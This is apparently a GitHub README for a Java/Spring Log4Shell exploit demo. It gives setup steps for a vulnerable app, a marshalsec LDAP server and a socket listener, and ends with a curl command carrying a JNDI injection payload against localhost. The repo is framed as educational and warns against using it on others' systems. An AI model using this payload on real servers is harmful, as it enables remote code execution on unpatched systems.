 ## Log4Shell Exploit Demo

🛑 _Code in this repo should be used for educational purposes only!_ 🛑  
🛑 _Do not use these attacks against services which are not under your control!_ 🛑

_Please see [references](#References) for initiating repos with Python samples and further information._

## Purpose

This repo mixes code from repos mentioned in the reference section to facilitate single language and tech stack (Java/Spring) demo of the exploit.

### Install LDAP Ref Lib locally

* Clone https://github.com/mbechler/marshalsec
* Uncomment the `<artifactId>maven-assembly-plugin</artifactId>` in `pom.xml`
* Install library to local Maven Repo with `mvn clean install`

### Use locally generated Maven Artifact

```xml
<dependency>
  <groupId>org.eenterphace.mbechler</groupId>
  <artifactId>marshalsec</artifactId>
  <version>0.0.3-SNAPSHOT</version>
</dependency>
```

### Start Web Application with vulnerable Log4j

* With Java 11 or Java8u191+ (for other Java SDKs see [here](https://www.geekyhacker.com/2021/12/11/three-ways-to-patch-log4shell-cve-2021-44228-vulnerability/)), in Run Configuration, 
Add VM option `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`

### Start Exploit & LDAP Servers

* Start `L4sexploitApplication`

### Start Socketlistener

* Run `ExploitServer`

### Call Exploit

* Call `curl -A '${jndi:ldap://localhost:1389/a}' http://localhost:9090/`

### References

* Log4Shell-POC: https://github.com/kozmer/log4j-shell-poc
* Web Appication: https://github.com/korteke/log4shell-demo
* LDAP Serialization Hack: https://github.com/mbechler/marshalsec
